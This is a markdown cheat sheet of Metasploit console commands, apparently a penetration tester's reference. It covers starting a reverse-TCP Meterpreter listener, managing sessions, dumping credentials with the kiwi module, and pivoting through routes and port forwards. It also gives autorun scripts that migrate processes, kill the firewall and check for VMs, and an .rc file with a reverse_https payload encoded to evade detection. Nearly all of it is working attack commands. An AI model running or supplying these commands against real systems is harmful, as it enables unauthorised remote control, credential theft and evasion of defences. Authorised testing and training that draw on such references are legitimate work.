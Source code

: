 # MSFConsole
#### Start listener
```
use multi/handler
set payload windows/meterpreter/reverse_tcp
```

#### Background the sessions
```
Background
```

#### List sessions
```
sessions
```

#### Kill session
```
sessions -k <id>
```

#### Enter sessions
```
sessions -i <id>
```

#### Load kiwi module to dump creds and print help for kiwi
```
load kiwi
help kiwi
```

#### Load PowerShell and drop into shell
```
load powershell
powershell_shell
```

#### Set route
```
route add <subnet / host ip> <subnetmask> <session id>
```

#### Autoroute modulle
```
use multi/manage/autoroute
```

#### Create port forward
```
Portfwd add -l <LOCAL PORT> -p <REMOTE PORT> -r <REMOTE HOST>
```

#### After setting routes use bind shells

## Autorun script
### Set solo module as autorunscript
```
set AutoRunScript windows/gather/enum_logged_on_users
set AutoRunScript post/windows/manage/migrate
```

#### Create a .rc file and use it like:
```
run post/windows/manage/migrate
run post/windows/manage/killfw
run post/windows/gather/checkvm
```

```
set AutoRunScript multi_console_command -rc /root/autoruncommands.rc
```

## Metasploit automation run automatic script
#### Create a .rc file
```
set PAYLOAD windows/meterpreter/reverse_https
set LHOST 10.11.0.4
set LPORT 443
set EnableStageEncoding true
set StageEncoder x86/shikata_ga_nai
set AutoRunScript post/windows/manage/migrate
set ExitOnSession false
exploit -j -z
```

#### Start metasploit with .rc file
```
sudo msfconsole -r setup.rc
```
